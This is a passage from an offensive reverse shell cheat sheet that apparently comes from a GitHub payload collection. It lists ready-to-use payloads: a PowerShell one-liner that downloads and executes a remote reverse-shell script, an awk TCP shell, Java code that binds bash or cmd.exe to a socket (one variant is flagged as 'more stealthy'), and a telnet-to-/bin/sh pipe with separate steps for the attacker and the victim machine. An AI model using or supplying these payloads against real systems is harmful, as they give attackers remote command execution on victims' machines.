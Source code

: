 ```
powershell IEX (New-Object Net.WebClient).DownloadString('https://gist.githubusercontent.com/staaldraad/204928a6004e89553a8d3db0ce527fd5/raw/fe5f74ecfae7ec0f2d50895ecf9ab9dafe253ad4/mini-reverse.ps1')
```

## Awk
```
awk 'BEGIN {s = "/inet/tcp/0/10.0.0.1/4242"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null
```

## Java
```
Runtime r = Runtime.getRuntime();
Process p = r.exec("/bin/bash -c 'exec 5<>/dev/tcp/10.0.0.1/4242; cat <&5 | while read line; do $line 2>&5 >&5; done'");
p.waitFor();
```
### Java | Alternative 1
```
String host = "127.0.0.1";
int port = 4444;
String cmd = "cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start(); Socket s=new Socket(host, port); InputStream pi=p.getInputStream(), pe=p.getErrorStream(), si=s.getInputStream(); OutputStream po=p.getOutputStream(), so=s.getOutputStream(); while(!s.isClosed()){while(pi.available()>0)so.write(pi.read()); while(pe.available()>0)so.write(pe.read()); while(si.available()>0)po.write(si.read()); so.flush(); po.flush(); Thread.sleep(50); try {p.exitValue(); break;}catch (Exception e){}}; p.destroy(); s.close();
```
### Java | Alternative 2
**NOTE: This is more stealthy!**
```
Thread thread = new Thread(){
    public void run(){
        // Reverse shell here
    }
}
thread.start();
```

## Telnet
```
In Attacker machine start two listeners:
nc -lvp 8080
nc -lvp 8081

In Victim machine run below command:
telnet <10.0.0.1> 8080 | /bin/sh | telnet <10.0.0.1> 8081
```
